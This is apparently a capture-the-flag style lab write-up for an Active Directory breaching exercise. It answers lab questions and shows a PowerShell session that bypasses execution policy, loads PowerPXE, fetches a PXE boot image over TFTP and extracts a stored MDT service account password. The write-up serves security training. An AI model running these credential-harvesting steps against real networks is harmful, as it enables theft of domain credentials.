 > What is the name of the tool we can use to poison and capture authentication requests on the network?

> Responder

> What is the username associated with the challenge that was captured?

> svcFileCopy

> What is the value of the cracked password associated with the challenge that was captured?

> FPassword1!

# Task 6  Microsoft Deployment Toolkit

```
thm@THMJMP1 C:\Users\thm\Documents\t00n>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm\Documents\t00n> Import-Module .\PowerPXE.ps1
PS C:\Users\thm\Documents\max0110zxc> tftp -i 10.200.32.202 GET "\Tmp\x64{48FC737E-5124-4F00-9647-50FE75E14620}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
PS C:\Users\thm\Documents\max0110zxc> $BCDFile = "conf.bcd"
PS C:\Users\thm\Documents\max0110zxc> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
\Boot\x64\Images\LiteTouchPE_x64.wim
PS C:\Users\thm\Documents\max0110zxc> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot2.wim
Transfer successful: 341899611 bytes in 281 second(s), 1216724 bytes/s
PS C:\Users\thm\Documents\max0110zxc> Get-FindCredentials -WimFile pxeboot2.wim
>> Open pxeboot2.wim 
>>>> Finding Bootstrap.ini 
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
PS C:\Users\thm\Documents\max0110zxc>  
```

> What Microsoft tool is used to create and host PXE Boot images in organisations?

> Microsoft Deployment Toolkit

> What network protocol is used for recovery of files from the MDT server?

> TFTP

> What is the username associated with the account that was stored in the PXE Boot image?

> svcMDT

> What is the password associated with the account that was stored in the PXE Boot image?

> PXEBootSecure1@
